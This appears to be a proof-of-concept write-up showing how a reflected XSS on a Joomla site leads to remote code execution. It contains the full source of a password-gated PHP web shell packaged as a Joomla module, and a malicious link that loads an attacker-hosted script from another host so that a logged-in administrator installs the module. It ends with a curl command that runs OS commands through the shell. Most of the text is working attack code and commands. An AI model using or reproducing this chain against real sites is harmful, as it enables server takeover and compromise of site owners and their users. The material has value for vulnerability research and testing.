

# [RCE] Install Module

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [create Joomla module containing PHP payload] backdoor source code

(`mod_RCE_PoC.xml`)

```
<?xml version="1.0" encoding="utf-8"?>
<extension type="module" version="3.8" client="site" method="upgrade">
	<name>Joomla RCE PoC</name>
	<creationDate>Feb 2024</creationDate>
	<author>test</author>
	<authorEmail>test@localhost</authorEmail>
	<authorUrl>https://localhost</authorUrl>
	<copyright>test</copyright>
	<version>1.0</version>
	<files>
		<filename module="mod_RCE_PoC">mod_RCE_PoC.php</filename>
		<filename>mod_RCE_PoC.xml</filename>
	</files>
</extension>
```

(`mod_RCE_PoC.php`)

```
<?php
if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
?>
```

2. [create Joomla module containing PHP payload] create Joomla module

```
zip mod_RCE_PoC.zip mod_RCE_PoC.xml mod_RCE_PoC.php
```

3. victim user (with administrative privileges) logs in

http://192.168.5.19/administrator

4. victim user clicks link

```
http://192.168.5.19/test/rxss.php?q=<script src=http://192.168.5.13/installModuleJoomla.js></script>
```

5. execute OS command

```
curl -s "http://192.168.5.19/modules/mod_rce_poc/mod_RCE_PoC.php?pass=test&cmd=id" | head -n 1
```

6. [optional] uninstall module

*Joomla ➔ System ➔ [Manage] Extensions ➔ (sort by latest ID) ➔ (mark checkbox) Joomla RCE PoC ➔ Uninstall ➔ Yes*

## Screenshots


